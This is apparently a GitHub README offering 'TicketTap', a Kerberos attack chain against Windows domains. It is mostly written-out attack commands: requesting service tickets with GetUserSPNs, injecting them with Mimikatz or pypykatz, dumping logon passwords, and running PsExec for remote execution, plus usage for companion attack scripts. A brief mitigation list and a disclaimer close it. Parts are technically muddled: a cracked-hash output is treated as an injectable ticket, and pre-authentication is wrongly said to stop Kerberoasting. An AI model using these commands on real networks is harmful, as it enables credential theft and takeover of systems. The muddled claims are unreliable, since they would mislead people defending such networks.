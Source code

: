 # TicketTap: Remote Code Execution, Lateral Movement, Authentication Bypass, and Privilege Escalation via Kerberos TGS Exploitation

**TicketTap** is a multi-faceted vulnerability exploitation chain leveraging **Kerberos TGS (Ticket Granting Service) tickets** to achieve **Remote Code Execution (RCE)**, **Lateral Movement**, **Authentication Bypass**, and **Privilege Escalation** within a networked environment. This exploit allows attackers to bypass authentication, escalate privileges, and execute arbitrary commands remotely by injecting Kerberos TGS tickets into memory.

---

## Table of Contents
- [Overview](#overview)
- [Exploitation Chain Summary](#exploitation-chain-summary)
- [Detailed Steps for TicketTap](#detailed-steps-for-tickettap)
  - [Step 1: Obtain a TGS Ticket](#step-1-obtain-a-tgs-ticket)
  - [Step 2: Inject the TGS Ticket (Pass-the-Ticket)](#step-2-inject-the-tgs-ticket-pass-the-ticket)
  - [Step 3: Access the Target via RDP or SMB](#step-3-access-the-target-via-rdp-or-smb)
  - [Step 4: Privilege Escalation](#step-4-privilege-escalation)
  - [Step 5: Remote Code Execution (RCE)](#step-5-remote-code-execution-rce)
- [Running the Provided Scripts](#running-the-provided-scripts)
  - [Bash Script (macOS/Linux)](#bash-script-macoslinux)
  - [PowerShell Script (Windows)](#powershell-script-windows)
- [Setting Up the Environment](#setting-up-the-environment)
  - [macOS/Linux Setup](#macoslinux-setup)
  - [Windows Setup](#windows-setup)
- [Mitigation Strategies](#mitigation-strategies)
- [Tools Used](#tools-used)
- [Disclaimer](#disclaimer)

---

## Exploitation Chain Summary

The **TicketTap** exploitation chain follows these key steps:
1. **Obtain a TGS Ticket** using **SPN querying**.
2. **Inject the TGS** into the current session using **Mimikatz** or **pypykatz** (Pass-the-Ticket).
3. **Authenticate** to target services such as **RDP** or **SMB**.
4. **Escalate Privileges** to a highly privileged account.
5. **Execute Remote Code** using **PsExec** or other tools to gain control of the target machine.

---

## Detailed Steps for TicketTap

### Step 1: Obtain a TGS Ticket

You can extract TGS tickets for service accounts using **Impacket's `GetUserSPNs.py`**:
```bash
python3 GetUserSPNs.py <domain>/<username>:<password> -request
```
This will output the **$krb5tgs$** format hash.

### Step 2: Inject the TGS Ticket (Pass-the-Ticket)

Inject the TGS ticket using **Mimikatz** or **pypykatz**.

#### Mimikatz (Windows):
```bash
mimikatz# kerberos::ptt <path_to_tgs.kirbi>
```

#### pypykatz (macOS/Linux):
```bash
python3 pypykatz kerberos ptt <path_to_tgs.kirbi>
```

### Step 3: Access the Target via RDP or SMB

#### RDP (Windows):
```bash
mstsc /v:<target-ip>
```

#### RDP (macOS/Linux):
```bash
rdesktop <target-ip>
```

### Step 4: Privilege Escalation

Leverage tools like **Mimikatz** to extract further credentials and escalate privileges:
```bash
mimikatz# sekurlsa::logonpasswords
```

### Step 5: Remote Code Execution (RCE)

Use **PsExec** to run commands on the target machine.

#### PsExec (Windows):
```bash
python3 psexec.py <username>@<domain> -k -no-pass <target-ip>
```

---

## Running the Provided Scripts

### Bash Script (macOS/Linux)

To use the **Bash script** with **pypykatz** for macOS/Linux, follow the instructions below:

#### Example Usage:
```bash
./scriptname.sh -u TechMech -t /path/to/TechMech_tgs.kirbi -m /path/to/pypykatz -ip 192.168.1.10
```

- This injects the **TGS** for user `TechMech` and attempts an RDP connection to the target IP.
- If you want to use **PsExec**, provide the `-psexec`, `-d`, and `-pu` flags as well.

#### Flags:
- `-u`: Username for the TGS.
- `-t`: Path to the `.kirbi` file.
- `-m`: Path to **pypykatz**.
- `-ip`: Target IP for **RDP**.
- `-psexec`: Path to **Impacket's `psexec.py`**.
- `-d`: Domain name for **PsExec**.
- `-pu`: Username for **PsExec**.

### PowerShell Script (Windows)

For **Windows**, use the PowerShell script to inject a **TGS** and attempt an RDP connection or **PsExec**.

#### Example Usage:
```bash
.\scriptname.ps1 /u TechMech /tgsFile C:\path\to\TechMech_tgs.kirbi /mimikatz C:\path\to\mimikatz.exe /ip 192.168.1.10
```

- Injects the **TGS** and attempts to establish an RDP connection.
- For **PsExec**, provide `/psexec`, `/domain`, and `/psexecUser`.

---

## Setting Up the Environment

Here are setup commands to create the necessary directories, download scripts, and clone dependencies for **macOS/Linux** and **Windows**.

### macOS/Linux Setup

1. **Create a directory** and **download scripts**:
    ```bash
    mkdir TicketTap && cd TicketTap
    curl -O https://your-repository-url/scriptname.sh
    ```

2. **Clone dependencies**:
    ```bash
    git clone https://github.com/SecureAuthCorp/impacket.git
    git clone https://github.com/skelsec/pypykatz.git
    ```

3. **Install dependencies**:
    ```bash
    pip install -r impacket/requirements.txt
    pip install -r pypykatz/requirements.txt
    ```

### Windows Setup

1. **Create a directory** and **download scripts**:
    ```bash
    mkdir TicketTap && cd TicketTap
    curl.exe -O https://your-repository-url/scriptname.ps1
    ```

2. **Clone dependencies**:
    ```bash
    git clone https://github.com/SecureAuthCorp/impacket.git
    curl.exe -O https://download.mimikatz.com/latest
    ```

3. **Install Python and dependencies**:
    ```bash
    python -m pip install -r impacket/requirements.txt
    ```

---

## Mitigation Strategies

To protect against **TicketTap**, consider the following mitigations:
1. **Enable Kerberos pre-authentication** to prevent **Kerberoasting**.
2. **Limit service account privileges** and audit access control.
3. **Monitor Kerberos authentication logs** for anomalies.
4. **Patch Kerberos-related vulnerabilities** to minimize the risk of exploitation.

---

## Tools Used

- **Mimikatz**: Extract and inject Kerberos tickets.
- **pypykatz**: Python-based Kerberos manipulation (macOS/Linux).
- **Impacket**: Tools for querying SPNs, executing PsExec, etc.

---

## Disclaimer

This repository is for **educational purposes** only. Unauthorized use of these techniques on systems without permission is illegal.